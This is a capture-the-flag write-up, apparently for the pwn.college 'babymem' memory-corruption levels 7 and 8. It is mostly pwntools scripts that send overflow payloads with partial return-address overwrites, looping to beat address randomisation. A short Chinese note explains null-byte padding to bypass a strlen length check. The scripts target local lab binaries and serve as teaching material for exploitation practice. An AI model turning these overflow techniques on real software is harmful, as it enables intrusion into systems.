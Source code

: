 ```python
exit()

while True:

    elf = ELF("/challenge/babymem_level7.0") 

    p = process("/challenge/babymem_level7.0")
    p.sendline("154")

    buffer_size = 152
    payload = buffer_size * b'A' + b'\x99\x1E'
    p.sendline(payload)
    output = p.recvall().decode("utf-8")
    if "pwn" in output:
        print(output)
        p.interactive()
        exit()

```

```python
while True:

    elf = ELF("/challenge/babymem_level7.1") 

    p = process("/challenge/babymem_level7.1")
    p.sendline("90")

    buffer_size = 88
    payload = buffer_size * b'A' + b'\xAE\x22'
    p.sendline(payload)
    output = p.recvall().decode("utf-8")
    print(output)
    if "pwn" in output:
        print(output)
        exit()
```

## level 8

此关跟上level 7一致，多了一句strlen()判断字符串长度，我们直接将填充字节换成00这样，strlen的返回长度就是0。

```python
from pwn import *
context.arch = "amd64"
elf = ELF("/challenge/babymem_level8.0")
p = process("/challenge/babymem_level8.0")
p.sendline("74")

buffer_size = 72
payload = buffer_size * b'\x00' + b'\x95\x19'
p.sendline(payload)
p.interactive()
```
